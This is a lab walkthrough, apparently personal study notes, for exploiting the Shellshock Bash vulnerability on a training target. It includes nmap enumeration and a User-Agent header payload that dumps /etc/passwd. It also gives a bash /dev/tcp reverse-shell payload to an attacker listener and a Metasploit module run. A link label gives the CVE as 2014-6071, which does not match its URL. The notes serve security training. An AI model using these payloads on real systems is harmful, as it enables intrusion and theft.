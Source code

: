 # 🔬Bash

## Lab 1

>  🔬 [Shellshock](https://attackdefense.com/challengedetailsnoauth?cid=1911)
>
>  - Target IP: `192.173.104.3`
>  - **Bash Exploitation** - [CVE-2014-6071](https://cve.mitre.org/cgi-bin/cvename.cgi?name=cve-2014-6271)

### Enumeration

```bash
eth1@if54460  UP  192.173.104.2/24 
# target IP is 192.173.104.3
```

```bash
nmap -sV 192.173.104.3
```

```bash
80/tcp open  http    Apache httpd 2.4.6 ((Unix))
```

![nmap](assets/image-20230319153733972.png)

- Check the website via a browser:
  - `http://192.173.104.3/`
- View Page Source
  - `http://192.173.104.3/gettime.cgi`
  - `gettime.cgi` script can be utilized as the attack vector

![](assets/image-20230319153935041.png)

- Check if the server is vulnerable to ShellShock

```bash
nmap -sV --script=http-shellshock --script-args "http-shellshock.uri=/gettime.cgi" 192.173.104.3
```

![nmap http-shellshock](assets/image-20230319154317003.png)

### Manual Exploitation

- [Shellshock exploitable environment](https://github.com/opsxcq/exploit-CVE-2014-6271)
- To inject special characters into the `user-agent` HTTP header, [BurpSuite](https://portswigger.net/burp) can be used.
  - Configure FoxyProxy on Firefox, click on Burp Suite in FoxyProxy and run Burp Suite
  - Inside Proxy menu, turn **Intercept On**
- Reload the `/gettime.cgi` webpage in Firefox and intercept the response in BurpSuite

![](assets/image-20230319155107668.png)

- Send the request to the **Repeater**
- Replace `User-Agent: ` value with characters:

```bash
() { :; }; echo; echo; /bin/bash -c 'cat /etc/passwd'
```

- **Send** the request and check the Response

![](assets/image-20230319155542778.png)

> 📌 The target is vulnerable to ShellShock

### Reverse Shell

- Set up a listener

```bash
nc -nvlp 1234
```

- Open Burp Suite and change the command to connect to the `netcat` listener of the Kali VM. The payload will be:

```bash
() { :; }; echo; echo; /bin/bash -c 'bash -i >&/dev/tcp/192.173.104.2/1234 0>&1'
```

![](assets/image-20230319155950852.png)

![Reverse shell](assets/image-20230319160049083.png)

- *Turn off burpsuite listener and FoxyProxy.*

### Automatic Exploitation

```bash
msfconsole -q
```

```bash
search shellshock
use exploit/multi/http/apache_mod_cgi_bash_env_exec
set RHOSTS 192.173.104.3
# RPORT is ok, 80
set TARGETURI /gettime.cgi
exploit
```

![Metasploit apache_mod_cgi_bash_env_exec](assets/image-20230319160531195.png)

------

